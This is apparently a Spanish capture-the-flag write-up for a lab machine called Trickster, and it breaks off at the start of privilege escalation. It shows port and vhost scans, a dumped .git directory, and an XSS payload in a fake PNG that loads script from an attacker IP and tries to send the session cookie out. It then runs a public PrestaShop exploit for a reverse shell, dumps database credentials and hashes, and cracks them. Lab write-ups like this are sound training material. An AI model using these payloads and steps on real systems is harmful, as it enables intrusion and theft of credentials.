#XSS 
`nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.10.11.34 -oG allPorts`
`nmap -p22,80 -sCV 10.10.11.34 -oN targeted`
```python
22/ssh
80/http
```


`gobuster vhost -u http://trickster.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -t 200 -r --append-domain`
```js
10.10.11.34     trickster.htb shop.trickster.htb
```

Utiliza un `prestashop` que es como un Wordpress para ecomerce

Encontramos en `robots.txt` el directorio `http://shop.trickster.htb/.git/`

Usaremos la herramienta [[GITHACK]] `https://github.com/lijiejie/GitHack.git`
`python3 githack http://shop.trickster.htb/.git/`

Nos traerá toda la web a nuestra maquina y la podemos ver navegando a sus directorios
Encontramos el siguiente directorio de panel de login de Prestashop `http://shop.trickster.htb/admin634ewutrx1jgitlooaj/index.php`

Encontramos la versión y encontramos que tiene un CVE `CVE-2024-34716`
`https://ayoubmokhtar.com/post/png_driven_chain_xss_to_remote_code_execution_prestashop_8.1.5_cve-2024-34716/`

En el PoC nos explica que podemos crear un falso archivo `.png` en el cual podemos incluir contenido JavaScript que será interpretado, por lo que se acontecería un XXS
Este archivo se puede incluir en la web `http://shop.trickster.htb/contact-us`

Creamos el fichero `test.png` con el contenido `<script src="http://10.10.14.18/malicius.js"></script>`

El servicio web hace la solicitud al recurso que hemos levantado en el server de Python

Podemos probar a listar la cookie de sesión `<script src="http://10.10.14.18/?cookie=" + document.cookie></script>`

Como el HttpOnly esta en True no nos permite obtener la cookie

EN el PoC nos dice que hay que subir un tema malicioso podemos usar el repositorio `https://github.com/aelmokhtar/CVE-2024-34716` que nos lo automatiza

Este script nos automatiza todo el proceso de ejecución devolviéndonos una Reverse Shell directamente

`python3 exploit.py --url "http://shop.trickster.htb" --email test@test.com --local-ip 10.10.14.18 --admin-path admin634ewutrx1jgitlooaj
`
Obtendremos una reverse shell como el usuario
Y hacemos un tratamiento de la TTY para que podamos trabajar mas cómodamente

En nuestro directorio acctual encontramos el directoriuo de `prestashop` buscamos por archivos de configuracion `find . -name \*conf\*` y encontramos la siguiente ruta `app/config`  buscamos por archivos que contengan la plabra password `grep -r -i "password"`y encontramos un archivo llamdo `parameters.php`

Y encontramos el usuario de la base de datos 
```ad-hint 
ps_user::prest@shop_o
```

Nos conectamos a la base de datos con el usuario y password encontrados:
`mysql -ups_user -pprest@shop_o -D prestashop`

Al haber muchas tablas se puede filtrar de la siguiente forma
`select table_name from information_schema.columns where column_name = 'email' and table_schema = database();`

Lo que nos hace es: d3e la base de datos actual de todas las tablas muéstrame todas las columnas que contengan la palabra email

Encontramos que en la tabla de empledos es donde se encuentran todos los datos mas relevantes;
`describe ps_employee;`

Obtenemos los usuarios y las contraseñas:
`select email,passwd from ps_employee;`

```ad-hint
admin@trickster.htb

$2y$10$P8wO3jruKKpvKRgWP6o7o.rojbDoABG9StPUt0dR7LIeK26RdlB/C

james@trickster.htb

$2a$04$rgBYAsSHUVK3RZKfwbYY9OPJyBbt/OzGw9UHi4UnlK6yG5LyunCmm
```

Para esos hashes los cuardamos en un archivo y se los pasamos ha [[HASCAT]] el cual nos dira diferentes modos que debmos de probar para decodearlo ` hashcat hashes /usr/share/wordlists/rockyou.txt -O `

Nos indica que son bcrypt y tendremos que usar el siguiente parametro
`hashcat hashes /usr/share/wordlists/rockyou.txt -O -m 3200`

Encontramos la contraseña `alwaysandforever` para el usuario `james`
Y conseguiremos pivotar a este usuario

## Escalada de privilegios
En la búsqueda de binarios SUID no encontramos nada que podamos escalar `find / -perm -4000 2>/dev/null`

Buscaremos capabilities 





